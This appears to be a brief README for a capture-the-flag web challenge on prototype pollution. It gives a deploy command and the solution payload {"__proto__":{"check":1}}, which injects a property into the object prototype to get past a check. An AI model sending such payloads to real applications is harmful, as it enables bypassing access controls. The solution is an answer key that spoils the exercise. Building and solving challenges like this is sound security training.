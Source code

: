 # Author
`Uiiiiiii`
# Deploy
- `docker-compose up -d --build`
# Description
Prototype pollution
# Solution
{"__proto__":{"check":1}}
